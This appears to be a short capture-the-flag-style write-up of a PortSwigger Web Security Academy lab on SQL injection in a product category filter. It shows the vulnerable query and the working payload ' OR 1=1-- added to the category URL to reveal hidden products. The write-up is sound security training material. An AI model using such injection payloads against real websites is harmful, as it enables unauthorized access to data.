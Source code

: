 # Lab's description
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

**End goal:** Display one or more unreleased products.

# Solution
Firstly, you go to home page and choose any category.

**Link** `https://0a89005304a405808199a7b6004700ae.web-security-academy.net/filter?category=Lifestyle`

We will see there are only 3 items; then we modify the link by adding `' OR 1=1--`

**Link:** `https://0a89005304a405808199a7b6004700ae.web-security-academy.net/filter?category=Lifestyle%27+OR+1=1--`

After modifying, we can see there are more items added.

**Source:** [Lab: Retrieving hidden data](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-hidden-data/sql-injection/lab-retrieve-hidden-data#)
